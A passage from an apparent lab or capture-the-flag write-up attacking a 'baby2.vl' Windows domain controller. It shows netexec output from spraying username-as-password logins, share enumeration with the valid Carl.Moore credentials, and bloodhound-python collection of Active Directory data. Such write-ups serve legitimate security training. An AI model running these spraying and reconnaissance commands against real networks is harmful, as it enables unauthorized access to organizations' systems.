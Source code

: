     SMB         10.10.111.91    445    DC               [-] baby2.vl\Lynda.Bailey:Lynda.Bailey STATUS_LOGON_FAILURE
    SMB         10.10.111.91    445    DC               [-] baby2.vl\Mohammed.Harris:Mohammed.Harris STATUS_LOGON_FAILURE
    SMB         10.10.111.91    445    DC               [-] baby2.vl\Nicola.Lamb:Nicola.Lamb STATUS_LOGON_FAILURE
    SMB         10.10.111.91    445    DC               [-] baby2.vl\Ryan.Jenkins:Ryan.Jenkins STATUS_LOGON_FAILURE

so we got 2 creds so lets continue with Carl.Moore:Carl.Moore 

    ➜  baby2 nxc smb DC -u Carl.Moore -p 'Carl.Moore' --shares
    SMB         10.10.111.91    445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:baby2.vl) (signing:True) (SMBv1:False)
    SMB         10.10.111.91    445    DC               [+] baby2.vl\Carl.Moore:Carl.Moore 
    SMB         10.10.111.91    445    DC               [*] Enumerated shares
    SMB         10.10.111.91    445    DC               Share           Permissions     Remark
    SMB         10.10.111.91    445    DC               -----           -----------     ------
    SMB         10.10.111.91    445    DC               ADMIN$                          Remote Admin
    SMB         10.10.111.91    445    DC               apps            READ,WRITE      
    SMB         10.10.111.91    445    DC               C$                              Default share
    SMB         10.10.111.91    445    DC               docs            READ,WRITE      
    SMB         10.10.111.91    445    DC               homes           READ,WRITE      
    SMB         10.10.111.91    445    DC               IPC$            READ            Remote IPC
    SMB         10.10.111.91    445    DC               NETLOGON        READ            Logon server share
    SMB         10.10.111.91    445    DC               SYSVOL          READ            Logon server share 

now we have READ, WRITE permissions for more shares.

## bloodhound

    ➜  bloodhound bloodhound-python -c ALL -u 'Carl.Moore' -p 'Carl.Moore' -d baby2.vl -ns 10.10.111.91   

    INFO: Found AD domain: baby2.vl
    INFO: Getting TGT for user
    WARNING: Failed to get Kerberos TGT. Falling back to NTLM authentication. Error: [Errno Connection error (dc.baby2.vl:88)] [Errno -2] Name or service not known
    INFO: Connecting to LDAP server: dc.baby2.vl
    INFO: Found 1 domains
    INFO: Found 1 domains in the forest
    INFO: Found 1 computers
    INFO: Connecting to LDAP server: dc.baby2.vl
    INFO: Found 16 users
    INFO: Found 54 groups
    INFO: Found 2 gpos
    INFO: Found 3 ous
    INFO: Found 19 containers
    INFO: Found 0 trusts
    INFO: Starting computer enumeration with 10 workers
    INFO: Querying computer: dc.baby2.vl
    INFO: Done in 00M 23S
